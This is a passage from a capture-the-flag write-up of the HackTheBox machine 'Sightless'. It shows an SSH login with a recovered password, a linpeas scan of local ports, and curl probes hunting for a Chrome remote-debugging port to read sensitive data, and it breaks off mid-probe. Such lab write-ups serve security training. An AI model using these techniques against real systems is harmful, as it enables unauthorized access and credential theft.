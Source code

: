 We got the password `insaneclownposse`. Let's try ssh to the box.

```terminal
[★]$ ssh michael@sightless.htb
The authenticity of host 'sightless.htb (10.10.11.32)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'sightless.htb' (ED25519) to the list of known hosts.
michael@sightless.htb's password: 
Last login: Tue Sep  3 11:52:02 2024 from 10.10.14.23
michael@sightless:~$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael)
```

### Michael -> root

This part is a long process

After running linpeas we find multiple ports open locally.

```terminal
╔══════════╣ Active Ports                                                        
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:38603         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:40601         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:60451         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Also linpeas shows that chrome is running with [remote debugging](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/).

![remote](4.png)

This will allow us to read sensitive data.

First we need to identify what port is running the remote debugger. It's deferent every time.

```terminal
michael@sightless:/tmp$ netstat -tulpn 2>/dev/null | grep 127 | awk '{print $4}'
127.0.0.1:44053
127.0.0.1:60579
127.0.0.1:3306
127.0.0.1:8080
127.0.0.1:33060
127.0.0.1:45177
127.0.0.1:3000
127.0.0.53:53
127.0.0.53:53

michael@sightless:/tmp$ curl 127.0.0.1:60579/json
{"value":{"error":"unknown command","message":"unknown command: unknown command: json","stacktrace":"#0 0x562196871e43 \u003Cunknown>\n#1 0x5621965604e7 \u003Cunknown>\n#2 0x5621965c76b2 \u003Cunknown>\n#3 0x5621965c718f \u003Cunknown>\n#4 0x56219652ca18 \u003Cunknown>\n#5 0x56219683616b \u003Cunknown>\n#6 0x56219683a0bb \u003Cunknown>\n#7 0x562196822281 \u003Cunknown>\n#8 0x56219683ac22 \u003Cunknown>\n#9 0x56219680713f \u003Cunknown>\n#10 0x56219652b027 \u003Cunknown>\n#11 0x7f6cc0778d90 \u003Cunknown>\n"}}michael@sightless:/tmp$ 

michael@sightless:/tmp$ curl 127.0.0.1:45177/json
```